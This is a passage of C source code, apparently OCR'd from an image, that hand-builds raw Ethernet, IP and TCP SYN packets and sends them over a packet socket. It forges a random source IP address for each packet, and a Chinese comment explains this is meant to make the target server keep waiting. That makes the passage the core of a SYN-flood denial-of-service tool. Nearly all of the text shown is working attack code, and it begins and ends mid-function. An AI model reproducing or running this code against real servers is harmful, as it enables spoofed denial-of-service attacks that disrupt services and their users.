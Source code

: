 ```
		eth->h_source[5] = 0xa6;
		*/
		eth->h_proto = ntohs(ETH_P_IP);

		//开始填充IP首部
		ip=(struct ip*)(buf + sizeof(struct ethhdr));
		ip->ip_v = IPVERSION;
		ip->ip_hl = sizeof(struct ip) >> 2;
		ip->ip_tos = 0;
		ip->ip_len = htons(pks_len - sizeof(struct ethhdr));
		ip->ip_id = 0;
		ip->ip_off = 0;
		ip->ip_ttl = MAXTTL;
		ip->ip_p = IPPROTO_TCP;
		ip->ip_sum = 0;
		ip->ip_dst.s_addr = inet_addr(argv[2]);

		//开始填充TCP首部
		srand(time(NULL));
		tcp = (struct tcphdr*)(buf + sizeof(struct ethhdr) + sizeof(struct ip));
		tcp->source = random()%50000+10000;
		tcp->dest = ntohs(dstport);
		tcp->seq = random();
		tcp->doff = (sizeof(struct tcphdr) + op_len) >> 2;
		tcp->syn = 1;
		tcp->check = 0;
		tcp->window = ntohs(14600);

		i = pks_len - op_len;
		// mss = 1460
		buf[i++] = 0x02;
		buf[i++] = 0x04;
		buf[i++] = 0x05;
		buf[i++] = 0xb4;
		// sack
		buf[i++] = 0x01;
		buf[i++] = 0x01;
		buf[i++] = 0x04;
		buf[i++] = 0x02;
		// wsscale = 7
		buf[i++] = 0x01;
		buf[i++] = 0x03;
		buf[i++] = 0x03;
		buf[i++] = 0x07;

		int T = 1;
		while(1) {
			if (T == 0) break;
			T--;
			//源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
			ip->ip_src.s_addr = random();
			//自定义源地址192.168.204.136 => 0xc0a8cc88
			//ip->ip_src.s_addr = 0x8fcca8c0;
			unsigned sum = csum_tcpudp_nofold(ip->ip_src.s_addr, ip->ip_dst.s_addr, sizeof(struct tcphdr)+op_len, IPPROTO_TCP, 0);
			tcp->check = check_sum((unsigned short*)tcp, sizeof(struct tcphdr)+op_len, sum);
			ip->ip_sum = check_sum((unsigned short*)ip, sizeof(struct ip), 0);
			sendto(skfd, buf, pks_len, 0, (struct sockaddr*)target, sizeof(struct sockaddr_ll));
		}
	}

	int main(int argc, char** argv)
	{
```
